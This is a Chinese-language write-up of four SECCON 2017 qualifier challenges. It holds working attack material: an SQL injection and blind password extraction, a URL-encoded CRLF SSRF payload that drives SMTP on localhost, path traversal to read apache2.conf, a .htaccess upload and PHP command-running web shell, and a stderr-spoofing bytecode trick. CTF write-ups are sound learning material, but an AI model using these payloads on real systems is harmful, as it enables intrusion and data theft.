






# SECCON CTF Quals 2017 - Notes

## Log search
> Description:
>
> Search the flag on Elasticsearch.

題目給了一個搜尋欄位，打字底下會有我們關鍵字下的搜尋



其支持lucene語法，直接打 flag 有很多 404 

改打 ```+request:flag +response:200```

可以看到很多有 flag 且是 200 的，一個個試可以得到 flag


## SqlSRF
> Description:
>
>The root reply the flag to your mail address if you send a mail that subject is "give me flag" to root.
>http://sqlsrf.pwn.seccon.jp/sqlsrf/

打開頁面有四個檔案


看題目可以聯想是 SSRF ，然後先看程式碼: index.cgi_backup20171129

這裡有 SQL Injection
```
my $sth = $dbh->prepare("SELECT password FROM users WHERE username='".$q->param('user')."';")
```

然後取出來的密碼是加密過的，且我們不知道加密的方式，不過程式碼有這行

```
($q->param('save') eq '1' ? $q->cookie(-name=>'remember', -value=>&encrypt($user), -expires=>'+1M') : undef)
```

可以知道如果我們點選記住我，就會把 username 加密後存到 cookie ，故我們可以構造任意訊息並得到加密結果

透過 union select 後可以成功登入，登入後只能做 netstat ，和 wget (需要是 admin) ，故應該是利用 wget

所以需要 admin 登入

利用 blind sql injection 得到 admin 密碼: Yes!Kusomon!!

用 admin 登入後，這樣就可以用 wget 功能



題目說我們要給 root 寄信，在 127.0.0.1:25 ，所以要做 ssrf

利用 CRLF ，傳個 hello 試試看
```
127.0.0.1%0d%0aHELO admin%0a:25
```



payload:
```
127.0.0.1
HELO admin
MAIL FROM:<myemail@gmail.com>
RCPT TO:<root@ymzk01.pwn>
DATA
From:myemail@gmail.com
To:root@ymzk01.pwn
Subject:give me flag
give me flag
.
QUIT
:25/
```

送過去要 urlencode
```
127.0.0.1%0D%0AHELO%20admin%0D%0AMAIL%20FROM%3A%3Cmyemail%40gmail.com%3E%0D%0ARCPT%20TO%3A%3Croot%40ymzk01.pwn%3E%0D%0ADATA%0D%0AFrom%3Amyemail%40gmail.com%0D%0ATo%3Aroot%40ymzk01.pwn%0D%0ASubject%3Agive%20me%20flag%0D%0Agive%20me%20flag%0D%0A.%0D%0AQUIT%0D%0A%:25/
```


這樣可以收到信

Encrypted-FLAG: 37208e07f86ba78a7416ecd535fd874a3b98b964005a5503bcaa41a1c9b42a19

之後一樣利用 cookie 解密即可

```
root@lubun1704:~# curl "sqlsrf.pwn.seccon.jp//sqlsrf/index.cgi?" -d 'login=Login&save=1&user=&pass=admin' --cookie "remember=37208e07f86ba78a7416ecd535fd874a3b98b964005a5503bcaa41a1c9b42a19"


<!DOCTYPE html
        PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="ja" xml:lang="ja">
<head>
<title>SECCON 2017</title>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body bgcolor="black">
<!-- The Kusomon by KeigoYAMAZAKI, 2017 -->
<div style="background:#000 url(./bg-header.jpg) 50% 50% no-repeat;position:fixed;width:100%;height:300px;top:0;">
</div>
<div style="position:relative;top:300px;color:white;text-align:center;">
<h1>Login</h1>
<form action="?" method="post"><h2 style="color:red">Login Error!</h2>
<table border="0" align="center" style="background:white;color:black;padding:50px;border:1px solid darkgray;">
<tr><td>Username:</td><td><input type="text" name="user" value="SECCON{SSRFisMyFriend!}"></td></tr>
<tr><td>Password:</td><td><input type="password" name="pass" value=""></td></tr>
<tr><td colspan="2"><input type="checkbox" name="save" value="1">Remember Me</td></tr>
<tr><td colspan="2" align="right"><input type="submit" name="login" value="Login"></td></tr>
</table>
</form>
</div>
</body>
</html>
```

## automatic_door
> Description:
>
> Get shell, and execute /flag_x


[參考](https://ctftime.org/task/5057)

這題是代碼審計

看一下 apache2.conf ，網址打
```
http://automatic_door.pwn.seccon.jp/0b503d0caf712352fc200bc5332c4f95/?action=read&filename=../../../../../../../../etc/apache2/apache2.conf
```

可以看到
```
<Directory /var/www/>
    Options Indexes FollowSymLinks
    AllowOverride All
    Require all granted
</Directory>
```

AllowOverride All 則會讀取當前目錄下的 .htaccess 然後覆蓋預設值

所以上傳 .htaccess ，內容是 AddType application/x-httpd-php .txt

這裡用 python
```
def upload_file(filename):
    with codecs.open(filename, "r") as f:
        res = requests.post(
            "http://automatic_door.pwn.seccon.jp/0b503d0caf712352fc200bc5332c4f95/?action=write&filename=" + filename,
            files={"file": f})
        print(res.text)

upload_file('.htaccess')
```

再上傳一個的檔案: gg.txt ，內容是
```
test
<?php
$cwd='';
$descriptorspec = array(
    0 => array("pipe", "r"),
    1 => array("pipe", "w"),
    2 => array("file", "/tmp/error-output.txt", "a") );

$process = proc_open("/flag_x", $descriptorspec, $pipes, $cwd);

echo stream_get_contents($pipes[1]);
fclose($pipes[1]);


?>
test
```


之後可以用 pwn 看路徑，網址打 http://automatic_door.pwn.seccon.jp/0b503d0caf712352fc200bc5332c4f95/?action=pwd

可以看到: sandbox/FAIL_98864098c676093a97990579019ff2f9e195cc33/

我們上傳的東西都會在

http://automatic_door.pwn.seccon.jp/0b503d0caf712352fc200bc5332c4f95/sandbox/FAIL_98864098c676093a97990579019ff2f9e195cc33/



點一下 gg.txt ， 可以看到

test SECCON{f6c085facd0897b47f5f1d7687030ae7} test


## Theory of Relativity

> Description:
> 
> Theory of Relativity
> Part two(The Interpreter) may be harder than this one.
> 
> Here is a bytecode interpreter. It executes your program and shows the output. In fact, I prepared this to run an event named "slowest program wins!" A program with longest elapsed time wins a gift. That's all.
> 
> There's a timeout (14s maybe?). However, if your program executes longer than **100 seconds**, you win the flag!
> 
> For your information, the server is Ubuntu 16.04.3 with node.js 8.9.1.
> 
> http://relativity.pwn.seccon.jp:5000/
> relativity_and_interpreter-bbea97c5160f8fd11b084c5736c8db0c93653fd0028c01d3372c1cd9ecab6455.tgz

[參考](https://www.melodia.pw/?p=929)

給了一個檔案和網址，打開網站是



檔案提供了所有的程式碼，可以先看一下 server.py 來知道內部流程

應該不是要 bypass timeout ，因為系統要先獲取其 signal 並忽略後才可 bypass

這裡思考轉為如何欺騙

parse_time() 只在 stderr 找程式執行時間，故只要偽造好並在 stderr 中插入即可

題目這邊無法插入 python code ，所以轉為在 nodeJs 上想辦法

nodejs 中，如果讓 mul 的兩參數都是字串，會讓其寫入到 stderr

在 interpreter.py 的 parse_args

```
def parse_args(args):
        if args is not None:
                args = REGS.sub(r"'\1'", args)
                args = args.strip()
                try:
                        if args:
                                args = ast.literal_eval(args)
                except:
                        raise Exception('Invalid arguments: %s' % orig)
                if op not in handler:
                        raise Exception('Unknown opcode: %s' % op)
                if type(args)is not tuple:
                        args = args,
        else:
                args = ()
        return args
```

其中的 ast.literal_eval("('1','2\\n')") 會返回 ('1', '2\n')

可以插入 \n 在裡面，也就是成單獨一行

所以上傳 flag.js
```
ls r1,"\nuser\t0m1000.020s\n"
mul r1,r1,r2
exit
```

可以得到
```
Interpreter Version 1.0

==STDERR==
fatal error: '
user	0m1000.020s
' * None: str * imm is only allowed for string multiplication
===REGISTERS===
r01: 0x50bf58, type: 3
===FRAMES===
#0 (0x0x507f00): <root>

real	0m1.950s
user	0m1.828s
sys	0m0.112s

Time: 1000.02
Congratulations! Here is your flag: SECCON{lul_that_was_cheating}
```